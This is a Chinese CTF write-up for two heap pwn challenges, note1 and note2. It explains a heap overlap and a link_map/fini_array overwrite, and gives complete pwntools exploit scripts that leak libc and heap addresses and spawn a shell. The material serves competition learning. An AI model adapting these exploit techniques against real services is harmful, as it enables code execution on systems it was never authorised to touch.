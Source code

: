 ```yaml
---
title: 2022 柏鹭杯 pwn Writeup
date: 2022-09-16 06:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=45/
pin: false
published:
---
```


## note1

![image-20220916152727115](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916152727115.png)

漏洞点在3功能call会引用一个放在堆上的show功能的地址，以及放在堆上参数

![image-20220916152740387](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916152740387.png)

在edit_name功能中将堆块释放后未置空就再次申，导致了堆叠

![image-20220916153013589](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916153013589.png)

利用edit将管理结构体中的堆块地址换成got表的地址泄露libc，再将用同样的方式把ptr+8换成system，ptr换成/bin/sh即可

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import os
import hashlib
from hashlib import sha256

context.log_level = "debug"
context.arch = "amd64"
# context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0','--title', 'gdb', 'bash', '-c']
context.terminal = ['tmux', 'splitw', '-h']

# p = remote("","")
p = process("./note1")
elf = ELF("./note1")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
ia      = lambda                    :p.interactive()
hs256   = lambda data               :sha256(str(data).encode()).hexdigest()
l32     = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
l64     = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
uu32    = lambda                    :u32(p.recv(4).ljust(4,'\x00'))
uu64    = lambda                    :u64(p.recv(6).ljust(8,'\x00'))
int16   = lambda data               :int(data,16)
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------
def add(idx,size,name,tag,func):
    sla("> ",1)
    sla("id: ",idx)
    sla("name_length: ",size)
    p.sendlineafter("name: ",name)
    p.sendlineafter("tag: ",tag)
    sla("func: ",func)

def edit_name(idx,size,name):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",1)
    sla("name_length: ",size)
    p.sendlineafter("name: ",name)

def edit_tag(idx,tag):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",2)
    p.sendafter("new tag: ",tag)

def edit_func(idx,func):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",3)
    sla("func: ",func)  

def call(idx):
    sla("> ",3)
    sla("id: ",idx)

add(0,0x500,'b'*0x100,'', 1)
edit_tag(0,'a' * 8)
edit_func(0, 1)
call(0)
p.recvuntil("aaaaaaaa")
base = uu64()-0x131b
lg('base')
printf_got = base + 0x3FA8

edit_name(0, 0x17, '')
add(1,0x17,'','',1)
edit_name(0, 0x101,'b'*0x20 + p64(0) + p64(base + 0x131b)+p64(print_got))
call(1)
ru("name: ")
libc_base = l64()-0x61c90
lg('libc_base')
system = libc_base + 0x52290
edit_name(0, 0x101,'b' * 0x20 +'/bin/sh\x00' + p64(system))
call(1)
ia()
```

## note2

有2种方法，具体分析可看第一种方法，用house of banana求解：

[https://blog.e4l4.com/posts/IO%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#note2](https://blog.e4l4.com/posts/IO%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#note2)

第二种方法是利用任意地址写去修改程序的基地址(link_map)，程序返回时会调用的fini_array数组里的内容，导致触发one_gadget

![image-20220922151335506](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220922151335506.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import os
import hashlib
from hashlib import sha256

# context.log_level = "debug"
context.arch = "amd64"
context.terminal = ['tmux', 'splitw', '-h']

# p = remote("39.101.69.5","12032")
# p = process('./ld-2.33.so ./TinyNote'.split(),env={'LD_PRELOAD':'./libc-2.33.so'})
p = process("./note2")
elf = ELF("./note2")
libc = ELF("./libc.so.6")

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
ia      = lambda                    :p.interactive()
hs256   = lambda data               :sha256(str(data).encode()).hexdigest()
l32     = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
l64     = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
uu32    = lambda                    :u32(p.recv(4).ljust(4,'\x00'))
uu64    = lambda                    :u64(p.recv(6).ljust(8,'\x00'))
int16   = lambda data               :int(data,16)
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

def add(idx,size,con=''):
    sla("> ",1)
    sla("> ",idx)
    sla("> ",size)
    p.sendlineafter("Enter content: ",con)

def show(idx):
    sla("> ",3)
    sla("> ",idx)

def dele(idx):
    sla("> ",2)
    sla("> ",idx)


for i in range(10):
    add(i,0x90)
for i in range(8):
    dele(i)
show(7)
libc_base = l64()-0x219ce0
lg('libc_base')
link_map = libc_base+0x2712e0

show(0)
key = u64(p.recv(5).ljust(8,'\x00'))
lg("key")
heap_base = key<<12
lg("heap_base")

dele(8)
add(0,0x90)
dele(8)

add(1,0xc0,'a'*0xa0+p64((link_map)^key))
add(2,0x90,p64(libc_base + 0xebcf1))# +0x7a0
add(3,0x90,p64(heap_base+0x7a0-0x3d78))
sla("> ",4)

ia()
```



